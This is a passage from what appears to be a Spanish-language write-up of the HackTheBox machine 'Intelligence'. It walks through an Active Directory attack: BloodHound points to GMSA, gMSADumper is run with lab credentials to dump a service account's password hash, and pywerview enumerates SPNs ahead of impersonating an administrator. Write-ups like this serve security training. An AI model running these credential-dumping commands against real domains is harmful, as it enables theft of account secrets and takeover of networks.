 
![list](/assets/img/intelligence/Kali-2022-09-10-03-29-48.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Bloodhound nos dice que debemos atacar GMSA para aquello nos descargamos la herramienta 

[gmsadumper] ya el bloodhound no dice que nesesitamos explotar dicho recurso.

[gmsadumper]: https://github.com/micahvandeusen/gMSADumper

![list](/assets/img/intelligence/Kali-2022-09-10-03-41-17.png){:.lead width="800" height="100" loading="lazy"}

```python
python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb -l 10.10.10.248
```

{:.note}
Nos da un hash de l secice acount `svc_int$:::10a0f3a718b5c91d0a679de455d8ed51`.

Con vamos a impersonar una cache para autenticarme como usuario administrador, peo antes 

de eso debmos tener el `spn` y para eso vamos usar la herrmaienta `pywerviewy` la usaremos 

de la sigiente forma.

![list](/assets/img/intelligence/Kali-2022-09-10-03-47-51.png){:.lead width="800" height="100" loading="lazy"}

```python
pywerview get-netcomputer -u 'Ted.Graves' -t 10.10.10.248
```


[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html
[dnstool.py]: https://github.com/dirkjanm/krbrelayx
[bloodhound-python]: https://github.com/fox-it/BloodHound.py